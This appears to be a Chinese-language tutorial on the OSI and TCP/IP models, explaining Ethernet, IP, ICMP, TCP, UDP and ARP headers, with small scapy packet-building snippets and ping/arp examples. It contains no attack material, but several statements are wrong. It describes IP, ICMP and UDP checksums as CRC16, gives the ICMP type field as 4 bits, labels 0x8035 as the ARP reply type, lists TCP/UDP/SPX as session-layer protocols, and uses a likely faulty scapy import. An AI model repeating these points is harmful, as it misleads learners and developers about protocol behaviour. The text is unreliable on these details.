

## OSI 网络分层介绍

网络结构的标准模型是 OSI 模型，它是由国际互联网标准化组织 International Organization for Standardization，ISO 定义的网络分层模型。虽然目前没有完全按照这种模型实现的网络协议栈，但是这种模型对于理解网络协议内部的架构很有帮助，为学习网络协议提供了很好的参考模型。这个模型一般称为 ISO/OSI 开放互联模型 ISO，Open System Interconnection Reference Model，在实际中 TCP/IP 协议栈更为广泛。

### OSI 网络分层结构

ISO/OSI 开放互联模型采用 7 层结构，如图所示。


在 OSI 的 7 层模型结构中，从纵向即单个主机的角度来看，每一层与本层的上下两层从逻辑上是分开的，例如 A 的网络层和数据链路层是分开的。这种方式使得每一层为上一层提供服务，依赖于下层的数据并为上一层提供接口。同时各层之间的规则是相互独立的，例如数据的格式、通信的方式等，这称为本层的协议。

不同主机相同层之间是对等的，例如主机 A 中的应用层和主机 B 中的应用层是相同的层次，这两个层互为对等层，对等层之间的规则是一致的，但实现不一定相同。例如，UNIX 网络协议栈运行在主机 A 上，Windows 的网络协议栈运行在主机 B 上，只要它们的规则一致就可以；例如 A 上的 FTP 服务器可以与 B 上的 FTP 客户端实现互相通信。

一个主机上运行的网络规则实现的集合称为协议栈，主机利用协议栈来接收和发送数据。OSI/ISO 的 7 层网络结构模型可以将网络协议栈的不同层的实现划分为不同的层次，将问题简化，方便网络协议栈的实现。同时，7 层模型为网络中不同厂商的软硬件产品的兼容性提出了解决的办法。由于 7 层模型的方式实现起来太复杂，所以并没有一个实际使用的 7 层网络协议栈。

### OSI 的 7 层网络结构

在 OSI 的 7 层结构中，自下而上，每一层规定了不同的特性，完成不同的功能。共有 7 个层次：

- 物理层 Physical Layer：它规定了物理线路和设备的触发、维护、关闭物理设备的机械特性、电气特性、功能特性和过程，为上层的传输提供了一个物理介质，本层是通信端点之间的硬件接口。本层中数据传输的单位为比特 b。属于本层定义的规范有 EIA/TIARS-232、EIA/TIARS-449、V.35、RJ-45 等，实际使用中的设备如网卡等属于本层。

- 数据链路层 Data Link Layer：数据链路层在物理介质基础之上提供可靠的数据传输，在这一层利用通信信道实现无差错传输，提供物理地址寻址、数据成帧、数据的检测重发、流量控制和链路控制等功能。在数据链路层中数据的单位为**帧** frame。属于本层定义的规范有 SDLC、HDLC、PPP、STP、帧中继等，实际中的 MAC 属于本层。

- 网络层 NetWork Layer：网络层负责将各个子网之间的数据进行路由选择，将数据从一个主机传送到另一个主机，其功能包括网际互联、流量控制和拥塞控制等。在本层中数据的单位为**数据包** packet。属于本层定义的规范有 IP、IPX、RIP、OSPF 等，实际中的路由器属于本层。

- 传输层 Transport Layer：传输层将上层的数据处理为分段的数据，提供可靠或者不可靠的传输，为上层掩盖下层细节，保证会话层的数据信息能够传送到另一方的会话层但不一定传送到另一方的应用层。在传输层中数据的单位为**数据段** segment。属于本层定义的规范有 TCP、UDP、SPX 等。

- 会话层 Session Layer：会话层管理主机之间的会话过程，包括会话的建立、终止和会话过程中的管理，来提供服务请求者和提供者之间的通信。属于本层定义的规范有 TCP、UDP、SPX 等。

- 表示层 Presentation Layer：表示层对网络传输的数据进行变换，使得多个主机之间传送的信息能够互相理解，包括数据的压缩、加密、格式的转换等，例如图片数据的发送前压缩和接收后的解压。属于本层定义的有 ASCII、JPEG、MPEG 等标准。

- 应用层 Application Layer：应用层为应用程序提供访问网络服务的接口，为用户提供常用的应用，例如经常使用的电子邮件应用程序，网络浏览器等都基于本层、在本层之上定义。属于本层定义的规范有 Telnet、FTP、HTTP、SNMP、P2P 等应用层协议。

OSI 的 7 层结构中的底 3 层即物理层、数据链路层和网络层构成了通信子网层，它为网络的上层提供通信服务。需要注意的是 OSI 模型并不是一个网络结构，因为它并没有定义每个层所拥有的具体的服务和协议，它只是告诉我们每一个层应该做什么工作。但是，ISO 为所有的层次提供了标准，每个标准都有其自己的内部标准定义。

### OSI 参考模型中的数据传输

如图所示为一个运行于主机 B 上的应用程序，通过网络发送数据到主机 A 上的应用程序，数据流通过程在主机 B 上由上至下依次经过网络协议栈，通过网络发送给主机 A，在主机 A 上又自下而上地经过 OSI 的 7 层网络协议结构。


主机 B 的过程是一个封装的过程，数据从应用程序依次经过应用层、表示层、会话层、传输层、网络层、数据链路层和物理层，发送给主机 A。

- 当主机 B 的应用程序需要发送应用程序的数据时，数据由应用程序调用应用层接口，进入协议栈的应用层。

- 在网络协议栈的应用层，应用程序将要发送的应用程序数据被协议栈加上应用层的报头，包装成形成应用层协议数据单元，然后将数据传递给协议栈中应用层的下一层——表示层。

- 在表示层，它不关心应用层传递过来的数据内容，把应用程序发送的数据和网络协议栈应用层头部作为一个整体进行处理，加上表示层的报头。然后，递交到下层会话层。

- 与表示层类似，在会话层、传输层、网络层、数据链路层协议栈分别将其上层传递的数据加上自己的包头，然后，传递给自己层的下一层。即数据分别又加上会话层的报头、传输层的报头、网络层的报头和数据链路层的报头。在数据链路层，与其他层不一致的地方是还要加上一个数据链路层的尾部，打包成一个数据帧，然后，传递给物理层。数据链路层的尾部通常是数据的校验和，一般采用 CRC16 的校验方式。

- 在物理层，主机 B 的网络设备将数据链路层传递过来的数据发送到网络上。

主机 A 的过程与主机 B 相反，是一个解封的过程，数据依次经过物理层、数据链路层、网络层、传输层、会话层、表示层和网络层，将主机 B 发送的数据接收和解包，最后数据传递给应用程序。

- 主机 A 的物理层网络设备接收到数据到来的信号后，将接受到的数据保存下来，然后传递给它的上一层——数据链路层。

- 数据链路层把从物理层获得的数据去掉头部和尾部后，进行数据校验，发现没有出错，把数据传递给其上一层——网络层。

- 与数据链路层类似，网络层、传输层、会话层、表示层、应用层分别将从其下一层获得的数据一层层剥去报头，传递给对应的上一层。口最后，主机 B 发送的数据到达主机 A 上的应用程序中。

## TCP/IP 协议栈

由于 ISO 制定的 OSI 参考模型过于庞大、复杂，在实现时造成了很多困难，从而招致了许多批评。实际实现中，TCP/IP 协议栈获得了更为广泛的应用，目前主流的操作系统网络协议栈基本上都采用了 TCP/IP 协议栈。

### TCP/IP 协议栈参考模型

经典的 TCP/IP 参考模型从上至下分为 4 个层次：**应用层、传输层、网络层和主机到网络层**。与 OSI 模型不同的是在 TCP/IP 参考模型中，根据实际情况将 OSI 参考模型的会话层和表示层合并到应用层中；同时，将 OSI 参考模型中的数据链路层和物理层合并为主机到网络层。TCP/IP 参考模型与 OSI 参考模型的对照参见图。实际应用中 TCP/IP 的层次结构如图所示，其各层的主要功能如下：

- 主机到网络层（物理层+数据链路层）：包括设备和数据链路层的主机到网络层，在 TCP/IP 参考模型中并没有描述这一层的具体实现，只是规定能给其上一层的网络互联层提供访问接口，可以传输 IP 数据包，这一层的具体实现随着网络类型的不同而不同。

- 网络互连层（网络层）：网络互连层是整个 TCP/IP 协议栈的核心。它将数据包进行分组并发往目的主机或者网络，为了尽快地发送分组，一个数据包的分组可能要经过不同的路径进行传递。这造成了分组之间到达目的网络或者主机的顺序不是原来发送分组的顺序，需要在本层对分组进行排序。网络互联层定义了数据包的分组格式和协议，IP 协议 Internet Protocol，因此网络互联层又经常称为 IP 层。网络互联层的功能有路由、网际互联和拥塞控制等。


- 传输层：TCP/IP 参考模型中传输层的功能提供源主机和目标主机上的对等层之间可以进行会话的机制。在传输层中定义了两种协议，传输控制协议 `transmission control protocol`，TCP 和用户数据报协议 `user datagram protoco`l，UDP。TCP 协议是一个面向连接的、可靠的协议。它利用 IP 层的机制在不可靠连接的基础上实现可靠的连接，通过发送窗口控制、超时重发、分包等方法，将一台主机发出的字节流发往互联网上的其他主机。UDP 协议是一个不可靠的、无连接协议，主要适用于不怕数据丢失、不需要对报文进行排序、流量控制的场景。

- 应用层（会话层+表示层+应用层）：TCP/IP 参考模型中把 OSI 参考模型中的会话层和表示层取消，其功能被合并到应用层。基于 TCP 和 UDP 实现了很多的应用层协议，例如基于 TCP 协议的文件传输协议 File Transfer Protocol，FTP、Telnet 协议、超文本链接协议 Hyper Text Transfer Protocol，HTTP 等，基于 UDP 的协议有简化的 FTP 协议 TFTP、网络管理协议 SNMP、域名服务 DNS、网络文件共享 NFS 和 SAMBA 等，以及两种方式均有实现的协议，例如目前应用十分广泛的多种 P2P 协议 BitTorrent、eMule 等。

IP 层中包含网际控制报文协议 ICMP 和地址识别协议，实际上它们并不是 IP 层的一部分，但直接同 IP 层一起工作。ICMP 用于报告网络上的某些出错情况，允许网际路由器传输差错信息或测试报文。ARP 处于 IP 和数据链路层之间，它是在 32 位 IP 地址和 48 位局域网地址之间执行翻译的协议。

### 主机到网络层协议（物理层+数据链路层）

通常情况下，主机到网络层的协议对应于 OSI 的数据链路层，对于硬件及其驱动层 TCP/IP 协议没有进行规范。由 TCP/IP 的 4 层结构可以看出，本层主要为 IP 协议和 ARP 协议提供服务、发送和接收网络数据报。本层中由于要实现跨网和跨设备的互通，有很多的实现方式，例如串行线路 Serial LineIP，SLIP、点对点 PPP 等，本书中仅对**以太网**的实现方式进行简单的介绍。

以太网是由数字设备公司 Digital Equipment Corp，DEC、英特尔公司和 Xerox 公司在 1982 年公布的一个标准，目前 TCP/IP 技术主要基于此标准。它采用一种**带冲突检测的载波侦听多路接入的方法**进行传输，即 CSMA/CD `Carrier Sense，Multiple Access with Collision Detection`。以太网的封包格式如图所示，在 IP 数据的基础上增加了共 14 个字节。


以太网用 48bit 6 字节来表示源地址和目的地址。这里的源地址和目的地址指的是硬件地址，例如网卡的 MAC 地址。

在地址后面是两个字节的表示类型的字段，例如 0800 表示此帧的数据为 IP 数据，0806 表示此帧为 ARP 请求，8035 表示此帧为 ARP 应答。

类型字段之后是数据，对于以太网，规定数据段的大小范围是 46 个字节到 1500 个字节，不足的数据要用空字符填满。例如 ARP 协议的数据格式为 28 个字节，为了符合规范，其后有 18 个字节的占位符用于满足最少 46 字节的要求。

数据段的长度有一个最大值，以太网为 1500，这个特性称为 MTU，即最大传输单元。如果 IP 层有一个要传送的数据长度比 MTU 大，在 IP 层数据要进行分片，使得每个片都小于 MTU。

CRC 字段用于对帧内数据进行校验，保证数据传输的正确性，通常由硬件实现，例如在网卡设备中实现网络数据的 CRC 校验。

以太网的头部长度为 14 的特点在某些平台的实现上会造成效率上的问题，例如 4 字节对齐的平台，在取得 IP 数据的时候通常会重新复制一次。

#### 代码示例

```python
from scapy.layers.inet import Ether, raw
from scapy.data import *

# 0x800 表示此帧的数据为 IP 数据
# 0x0806 表示此帧为 ARP 请求应答

ether = Ether(dst="ff:ff:ff:ff:ff:ff", src="b4:2e:c4:20:cd:0b", type=0x800)
# ether = Ether(type=ETH_P_IP)
# ether = Ether(type=ETH_P_IPV6)
ether.show()

# ether = Ether(type=0x0806)
ether = Ether(type=ETH_P_ARP)
ether.show()

ether_raw = raw(ether)

print(ether_raw)
print(len(ether_raw))  # 以太网的封包在 IP 数据的基础上增加了共 14 个字节
```

### IP 协议

IP 协议是 TCP/IP 协议中最重要的协议，它为 TCP、UDP、ICMP 等协议提供传输的通路。IP 层的主要目的是提供子网的互联，形成较大的网络，使不同的子网之间能传输数据。

IP 层主要有如下作用：

- 数据传送：将数据从一个主机传输到另一个主机。
- 寻址：根据子网划分和 IP 地址，发现正确的目的主机地址。
- 路由选择：选择数据在互联网上的传送路径。
- 数据报文的分段：当传送的数据大于 MTU 时，将数据进行分段发送和接收并组装。

IP 数据的格式如图所示，不包含选项字段，其头部的长度为 20 个字节。


#### 版本 version

IP 协议的版本号，长度为 4 位，规定网络所实现的 IP 版本，例如，如果主机为 IPv4 协议，此字段的值为 4，而 IPv6 协议此字段的值为 6。

#### 首部长度 ihl (ip header length)

首部长度指的是 IP 字段除去数据的整个头部的数据长度，**以 32 位的字为单元计算**。

IP 首部的长度以字为增量变化，**最短的 IP 头是 20 字节**不，包括数据和选项。因此这个字段最小值是 5（20 字节为 160 位，160 位 /32 位= 5），也就是 5 个 32 位字长。由于它是一个 4 位的字段，所以 IP 的**首部最长为 60 个字节** （15 个字乘以 4）。

#### 服务类型 tos

IP 的服务类型字段长度为 8 位。此字段包含 3 位的优先权现在已经忽略，4 位的 T 服务类型子字段和 1 位的保留位必须置 0。4 位的服务类型分别为最小延迟 D、最大吞吐量 T、最高可靠性 R、最小费用 F。这 4 个位中最多只用一个位置 1，如果全为 0，表示为一般服务。服务类型的具体含义参见表。


- 优先权字段 3 位，因此可以有 0 ~ 7 的值 0 为正常值，7 为网络控制，但是此字段目前已经被忽略。它允许传输站点的应用程序设定向 IP 层发送数据报文的优先权。该字段与 D、T、R、F 相结合，确定应采取哪种路由方式。

- D 位字段为 1 个 b 长度，当值为 1 时表示请求低时延。
- T 位字段为 1 个 b 长度，当值为 1 时表示请求高吞吐量。
- R 位字段为 1 个 b 长度，当值为 1 时表示请求高可靠性。
- F 位字段为 1 个 b 长度，当值为 1 时表示请求低费用。

例如，如果 IP 分组有两个以上的路由方式可进行选择，路由器读取这些字段的值，根据服务类型的设置情况来选择一个合适的路由。**服务类型字段由应用程序进行设置**，路由器仅在必要时进行读取，不进行设置。

#### 总长度 len

总长度字段的长度是 16 位，表示**以字节为单位的数据报文长度**，长度包含 IP 的头部和数据部分。利用头部长度和总长度字段可以计算 IP 数据报文中数据内容的起始地址和长度，由于本字段的长度为 16 位，所以 **IP 数据报文最大可达到 65535 个字节的长度**。

#### 标识 id

#### 标识 flags 和片偏移 frag

IP 每发一份数据报文都会填写一个标识用来表示此数据包，发送完后此值会加 1。在 IP 进行分片的时候，将标识复制的 IP 的头部表示数据报文的来源，还要加上分片数据在原数据报文中的偏移地址，便于之后进行组装。利用字段总长度和片偏移可以重新组装 IP 的数据报文。总长度指出原始包的总长度，片偏移指出该包位于正在组装的 IP 报文的偏移量，偏移量从头部开始计算。

#### 生存时间 ttl

TTL `Time To Live` 字段的值表示数据报文最多可以经过的路由器的数量。它指定数据报文的生存时间，源主机发送数据时设置 TTL 一般为 32 或者 64，经过一个路由器 TTL 的值减 1。当 TTL 为 0 的时候，路由器丢弃此包，并发送一个 ICMP 报文通知源主机。

TTL 的出现是由于在包的传递过程中可能会出现错误情况，引起包在 Internet 的路由器之间不断循环。为防止此类事件发生，因而引入了 TTL 限制报文经过路由器的个数。

#### 协议类型

该字段为 8 位长度，表示 IP 上承载的是什么高级协议。在封包和解包的过程中，TCP/IP 协议栈知道将数据发给哪个层的协议做相关的处理，协议的值及含义参见表所示。例如，协议类型为 6 时，网络协议栈知道 IP 上承载的是 TCP 协议，IP 层处理完毕后会交给其上一层协议中 UDP 和 TCP 中的 TCP 协议层进行处理。

#### 校验和

校验和是一个 16 位长度的数值，使用循环冗余校验生成，其作用是保证 IP 帧的完整性。发送端发送数据的时候要计算 CRC16 校验值，填入此字段；接收端会计算 IP 的校验值与此字段进行匹配，如果不匹配，表示此帧发生错误，将丢弃此报文。在路由的过程中，由于每经过一个路由器都要修改 TTL 的值，所以需要重新计算 CRC16，将结果填入此字段中。

#### IP 选项

IP 选项字段是一个 32b 的字段，该选项用来识别 IP 的数据段是正常数据还是用做网络控制的数据。主要有如下定义：

- 安全和处理限制。
- 路径记录：记录所经历路由器的 IP 地址。
- 宽松源站路由：指定数据报文必须经历的 IP 地址，可以经过没有指定的 IP 地址。
- 严格的源站路由：指定数据报文必须经历的 IP 地址，不能经过没有指定的 IP 地址。

#### 源地址和目的地址

源地址表示发送数据的主机或者设备的 IP 地址，目的地址为接收数据的主机 IP 地址。

这两个字段均为 32 位长度。字段的目的用于识别 Internet 上的主机。

```python
from scapy.layers.inet import IP, raw

"""
scapy -H
"""

# 构造 IP 数据包
ipv4 = IP(flags=1, frag=2, ttl=12, dst="192.168.4.1")

# 显示 IP 数据包
ipv4.show()

# 打印16进制字节数据
raw(ipv4)
```

### 网际控制报文协议 ICMP

ICMP 协议用于传递差错信息、时间、回显、网络信息等报文控制数据。

#### ICMP 协议格式

ICMP 协议的数据**位于 IP 字段的数据部分**，它是**在 IP 报文的内部被传输的**，图 5.7 表示 ICMP 报文在 IP 报文中的位置。


ICMP 报文的数据格式如图所示，ICMP 报文的前 4 个字节的格式是相同的，表示类型、代码和校验和，而后面的字节则互不相同。**类型字段为 4 个位，可以表示 15 个不同类型的 ICMP 报文**。代码段用于对类型字段 ICMP 报文的详细规定，最多可以表示 16 种类型。校验和表示的范围覆盖整个 ICMP 的报文，包括头部和数据部分，校验方法与 IP 一致 CRC16，ICMP 协议的校验和是强制性的。


#### ICMP 的报文类型

ICMP 的报文类型由类型和代码来决定报文的方式，具体含义见表所示。表格中的最后两列表示报文用于查询还是差错，用√表示。主要包含如下几类，目的不可达、时间戳请求应答、回显请求应答、地址掩码请求应答，具体含义表格中进行了详细的解释。


#### 目的不可达的报文格式

ICMP 报文中项目最多的是报文不可达的差错报文，它的格式如图所示。类型字段的值为 3，代码字段根据实际情况进行设置。第 4 ~第 7 个字节保留，必须设置为 0。余下的字段为**不可达 IP 报文的头部（包含选项字段）和 IP 报文中数据部分的前 8 个字节**。例如，如果源 IP 头部没有选项字段的话，**ICMP 的报文长度**为 36 个字节（ 1 个字节的类型），1 个字节的代码，2 个字节的校验和，4 个字节的保留字段，20 个字节的 IP 头部，8 个字节的数据。


例如，一个端口不可达的 ICMP 报文，可能的数据格式如图所示。报文包含 14 个字节的以太网头部，20 个字节的 IP 地址头部，加上 ICMP 的 8 个字节的头部，ICMP 数据部分包含出错报文的 IP 头部和 8 个字节的 UDP 头部。


#### 地址掩码的请求应答格式

无盘工作站在启动的时候使用 RARP 协议获得本机的 IP 地址，而子网掩码的获得使用 ICMP 协议获得或者 BOOTP 协议获得。地址掩码请求的格式如图所示，与图中的 ICMP 报文相比，这个报文额外包含 3 个字段：标识符、序列号和子网掩码。在发送请求的时候标识符和序列号由请求的主机随意填充，应答时会返回这些值；应答的主机填充子网掩码后发送给请求主机，请求主机对比发送和接收到的标识符和序列号是否一致，来决定本机的请求是否有效。



地址掩码请求和发送的过程均对上述的字段进行处理，下面是一个请求发送和接收的具体过程和相关的操作。

- 请求方类型值为 17，代码为 0，填充标识符和序列号，计算校验和后将请求发送到网络上。

- 应答方类型值为 18，代码为 0，标识符和序列号为请求方的值，填充合适的子网掩码，计算校验和后返回给请求方。

#### 时间戳的请求应答格式

一个主机可以使用 ICMP 的时间戳请求向另一个主机查询当前时间，其格式如图所示。标识符和序列号的含义与网络掩码的请求应答相同。时间戳表示的是一个自子夜开始的毫秒数，发起时间戳为发起方发起请求时的时间，接收时间戳为接收方接收到请求的时间戳，传送时间戳为接收方发送响应的时间戳。发起时间戳由请求主机填充，接收时间戳和传送时间戳由应答主机填充，通常后两个时间戳是一致的。


利用时间戳请求应答可以计算网络上与目的主机的响应时间，如图所示。其中的“请求”为请求方到应答方的网络传输时间还有协议栈的处理时间，但是很少，“应答”为应答方到请求方的网络传输时间。“请求”过程时间为接收时间戳与请求时间戳的差值，“应答”过程时间为请求方接收到应答的时间与传送时间戳的差值。


### 传输控制协议 TCP

传输控制协议 Transmission Control Protocol，简称 TCP 协议，它在原有 IP 协议的基础上，增加了确认重发、滑动窗口和复用 / 解复用等机制，提供一种可靠的、面向连接的、字节流服务。

### TCP 的特点

TCP 协议具有如下特点：

- **字节流的服务**：使用 TCP 协议进行传输的应用程序之间传输的数据可视为**无结构的字节流**，**基于字节流的服务没有字节序问题的困扰**。

- 面向连接的服务：在数据进行传输之前，TCP 协议需要先建立连接，之后的 TCP 报文在此连接基础上传输。

- 可靠传输服务：基于校验和应答重发机制保证传输的可靠性。接收方对接收到的报文进行校验和计算，如果有误，不发送确认应答，发送方在超时后会自动重发此报文。

- 缓冲传输：缓冲传输可以延迟传送应用层的数据，**允许将应用程序需要传送的数据积攒到一定的数量才进行集中的发送**。

- 全双工传输：各主机 TCP 协议以**全双工的方式进行数据流交换**。

- 流量控制：TCP 协议的滑动窗口机制，**支持主机间的端到端的流量控制**。

#### TCP 的数据格式

TCP 在 IP 协议的基础上进行传输数据，TCP 数据在 IP 报文中的位置如图所示。


TCP 报文包含头部和数据两部分，其数据格式如图所示。主要有源端口号、目的端口号、序列号、确认号、头部长度、控制位、窗口尺寸、TCP 校验和、紧急指针和选项等字段。


- 源端口号 sport 和目的端口号 dport：这两个字段均为 16 位的长度，表示发送端和接收端的端口，用于确认发送端和接收端的应用程序。发送端的 IP 地址和端口号及接收端的 IP 地址和端口号可以确认一个在 Internet 上的 TCP 连接。

- 序列号 seq：序列号是一个 32 位长度的字段，表示分配给 TCP 包的编号。序列号用来标识应用程序从 TCP 的发送端到接收端发送的字节流。当 TCP 开始连接的时候，发送一个序列号给接收端，连接成功后，这个序列号作为初始序列号 ISNInitial Sequence Number。建立连接成功后发送的第一个字节的序列号为 ISN+1，之后发送数据 ISN 将按照字节的大小进行递增。序列号是一个 32 位的无符号数，到达 2 的 32 次方减 1 之后从 0 开始。

- 确认号 ack：发送方对发送的首字节进行了编号，当接收方成功接收后，发送回接收成功的序列号加 1 表示确认，发送方再次发送的时候从确认号开始。

- 头部长度 dataofs：表示 TCP 头部的长度，由于 TCP 的数据有可选字段，头部长度用于表示头部的长度。此字段的长度为 4 位，表示的是以 32 位字长的数据。因此 TCP 的头部最长为 60 个字节，如果没有可选字段通常为 20 字节。

- 保留位 reserved：6 位长度没有使用，必须设为 0。

- 控制位 flags：6b，用做控制位，可以多个位一起设置，含义在表中进行说明。


- 窗口尺寸 window：窗口尺寸也称接收窗口大小，表示本机上 TCP 协议可以接收的**以字节为单位**的数目，本字段为 16b 大小。

- 校验和 chksum：16b。用于校验 TCP 传输数据的正误，包括 TCP 头和所有数据，TCP 的数据必须强制校验。

- 紧急指针 urgptr：16b。只有设置了 URG 位才有效，它指出了紧接紧急数据的字节的顺序编号。

- 选项 options：经常使用的为最大分段长度 MSS `Maximum Segment Size`。TCP 连接通常在第一个通信的报文中指明这个选项，它指明当前主机所能接收的最大报文长度。

#### 三次握手、四次挥手

见协议笔记。

#### TCP 的封装解封过程

图所示为使用 TCP 协议的应用程序的数据传输过程，用户数据由主机 A 发送给主机 B，数据封装在 TCP 的数据部分。


发送的过程是一个封包的过程。在主机 A 上，在传输层，用户发送的数据增加 TCP 头部，用户数据封装在 TCP 的数据部分。在 IP 层增加 IP 的头部数据，TCP 的数据和头部都封装在 IP 层的数据部分。IP 层将数据传输给网络设备的驱动程序，以太网增加头部和尾部后，发送到以太网上。

接收数据的过程是一个解封包的过程。在主机 B 上，驱动程序从以太网上接收到数据，然后将数据去除头部和尾部并进行 CRC 校验后，将正确的数据传递给 IP 层。IP 层剥去 IP 头，进行校验，将数据发送给其上层 TCP 层。TCP 则将 TCP 的包头剥去，根据应用程序的标识符判断是否发送给此应用程序。在主机 B 上的应用程序最后得到干净的有效数据，然后进行处理。

### 用户数据报文协议 UDP

UDP 是一种基于 IP 协议的不可靠网络传输协议，在 IP 数据的位置如图所示。


UDP 协议是 TCP/IP 的传输层协议的一部分，与 TCP 的传输不一样，它提供无连接的、不可靠的传输服务。UDP 协议把应用程序需要传递的数据发送出去，不提供发送数据包的顺序；接收方不向发送方发送接收的确认信息，如果出现丢包或者重包的现象，也不会向发送方发送反馈，因此不能保证使用 UDP 协议的程序发送的数据一定到达了接收方或者到达接收方的数据顺序和发送方的一致性。

使用 UDP 协议传输数据的应用程序，必须自己构建发送数据的顺序机制和发送接收的确认机制，以此来保证发送数据的正确到达，保证接收数据的顺序与发送数据的一致性，也就是说，应用程序必须根据 UDP 的缺点提供解决方案。

UDP 协议相比较 TCP 协议执行时的速度要比 TCP 快的多，因为 UDP 协议简单的多，对系统造成的负载低。在高负载的系统例如服务器或者系统资源受限的系统例如嵌入式系统上应用比较多，在不需要可靠传输的应用程序上有比较广泛的应用，例如流媒体的传输、域名服务器、嵌入式机顶盒系统等。

#### UDP 的数据格式

UDP 传输数据时的字段格式如图所示。

- 源端口号和目的端口号分别是一个 16 位的字段，用来表示发送方和接收方的 UDP 端口。

- UDP 数据长度表示 UDP 头部和 UDP 数据段的长度，单位为字节。由于 UDP 头部为 8 个字节，因此发送 UDP 的长度字段最少为 8 字节。UDP 的长度与 IP 协议的长度有关联性，IP 的长度指的是数据的全长，UDP 的长度等于 IP 的长度减去 IP 头部的长度。


- UDP 校验和表示整个 UDP 字段的 CRC16 校验和，它的计算方法与 IP 字段是一致的。UDP 的校验和字段是可选的，即可以不进行 CRC 校验，此时校验和部分为全 0。UDP 校验和允许发送的数据为奇数长度，此时要加一个空字节，即全 0 的字节进行填充，这个字节仅仅为了方便计算校验和，不发送到目的地址。

#### UDP 数据的传输过程

图 5.21 表示使用 UDP 协议的应用程序的数据传输过程，用户数据由主机 A 发送给主机 B，数据封装在 UDP 的数据部分。


发送的过程是一个封包的过程。主机 A 上，在传输层，用户发送的数据增加 UDP 头部，用户数据封装在 UDP 的数据部分。在 IP 层增加 IP 的头部数据，UDP 的数据和头部都封装在 IP 层的数据部分。IP 层将数据传输给网络设备的驱动程序，以太网增加头部和尾部后，发送到以太网上。

接收数据的过程是一个解封包的过程。主机 B 上，驱动程序从以太网上接收到数据，然后将数据去除头部和尾部并进行 CRC 校验后，将正确的数据传递给 IP 层。IP 层剥去 IP 头，进行校验，将数据发送给其上层 UDP 层。UDP 则将 UDP 的包头剥去，根据应用程序的标识符判断是否发送给此应用程序。在主机 B 上的应用程序最后得到干净的有效数据，然后进行处理。

#### 代码示例

```python
from scapy.layers.inet import IP, UDP

udp = IP(dst="192.168.0.1") / UDP(dport=80, sport=1080)
udp.show()
```

### 地址解析协议 ARP

在以太网为基础的局域网中，每个网络接口都有一个硬件地址，这是一个 48b 的值，标识不同的以太网设备，在局域网中的必须知道网络设备的硬件地址才能向目的主机发送数据。而在网际网中数据传输的目的地址是 IP 地址，数据要能够正确地传输，必须**建立 IP 地址和硬件地址的对应关系**，ARP 协议就是起这种作用的。

ARP 协议为 IP 地址到硬件地址提供动态的映射关系，如图所示为进行 IP 地址和硬件地址映射的 ARP 映射关系图。ARP 的高速缓存维持这种映射关系，其中存放了最近 IP 地址到硬件地址的映射记录，高速缓存中的每项记录的生存时间为 20 分钟，开始时间从映射关系建立时算起。


#### ARP 过程

如图所示在局域网中有主机 A 和主机 B，IP 地址分别为和。下面是一个 ping 过程的实例，用这个实例来说明 ARP 协议的作用和在实际过程中的位置。


主机 A 用 ping 命令探测主机 B，命令如下：

```shell
ping B
```

其过程如图所示，会进行如下过程的步骤，步骤的编号在图中。

- 步骤 a：应用程序 ping 会判断发送的是主机名还是 IP 地址，调用函数 gethostbyname() 解析主机名 B，将主机名转换成一个 32 位的 IP 地址。这个过程叫做 DNS 域名解析。


- 步骤 b : ping 程序向目的 IP 地址发送一个 ICMP 的 ECHO 包。

- 步骤 c：由于主机 A 和主机 B 在同一个局域网内，必须把目标主机的 IP 地址转换为 48 位的硬件地址，即调用 ARP 协议，在局域网内发送 ARP 请求广播，查找主机 B 的硬件地址。

- 步骤 d：主机 B 的 ARP 协议层接收到主机 A 的 ARP 请求后，将本机的硬件地址填充到合适的位置后，发送 ARP 应答到主机 A。

- 步骤 e：发送 ICMP 数据包到主机 B。

- 步骤 f：主机 B 接收到主机 A 的 ICMP 包，发送响应包。

- 步骤 g：主机 A 接收到主机 B 的 ICMP 响应包。

在 ping 命令之后可以查看 ARP 的高速缓存，用 arp 命令加 -a 选项进行检查，-a 选项是全部显示的意思，下面是一个主机的 ARP 高速缓存中的内容：

```shell
arp -a
```

```shell
Interface: 192.168.0.117 --- 0x1f
  Internet Address      Physical Address      Type
  192.168.0.1           80-8f-1d-f9-2e-63     dynamic
  192.168.0.110         c0-a5-dd-b4-dc-cb     dynamic
```

#### ARP 分组数据格式

以太网的地址解析协议 ARP 协议分组数据格式，如图 5.25 所示。ARP 协议的实现方式是在以太网上做广播，查询目的 IP 地址，接收到 ARP 请求的主机响应请求方，将本机的 MAC 地址反馈给请求的主机。


- 以太网头部部分的目的硬件地址和源硬件地址，分别为以太网硬件的地址的发送方和接收方的硬件地址，例如 MAC 地址。当目的硬件地址为全 1 即 0xFFFFFFFFFFFF 的地址时，为广播帧，在以太网上的所有接口都要接收此帧数据。

- 帧类型为两个字节长度，表示后面数据的类型。对于 **ARP 请求应答，该字段为 0x0806**。

- 硬件类型 hwtype 表示硬件地址的类型，值为 1 表示以太网硬件地址。

- 协议类型 ptype 表示要映射的协议地址类型，值为 0x0800 表示询问 IP 地址。

- 硬件地址长度 hwlen，表示硬件地址以字节为单位的长度，对于 ARP 请求来说，硬件地址为以太网的 MAC 地址，值为 6。

- 协议地址长度 plen，表示协议地址以字节为单位的长度，对于 ARP 请求来说，协议地址为 IP 地址，为 32 位，值为 4。

- 操作方式字段为本次操作的类型 op，可选方式如表 5.5 所示，ARP 请求帧和 ARP 应答帧的区别，可用此字段的值不同来确定。

表 5.5 ARP 操作方式

值 | 含义
1 | ARP 请求
2 | ARP 应答
3 | RARP 请求
4 | RARP 应答

- 余下的 4 个字段分别为发送方的硬件地址hwsrc、发送方的 IP 地址psrc、接收方的硬件地址hwdst、接收方的 IP 地址pdst。

ARP 请求应答的操作方式很简单，将接受到数据字段的发送方和接收方的值对调，将所有本机的硬件地址和 IP 地址的值填充到合适的发送方位置。

在 ARP 操作中，有效数据的长度为 28 个字节，不足以太网定义的最小长度 46 字节长度，需要填充字节，填充字节最小长度为 18 个字节。

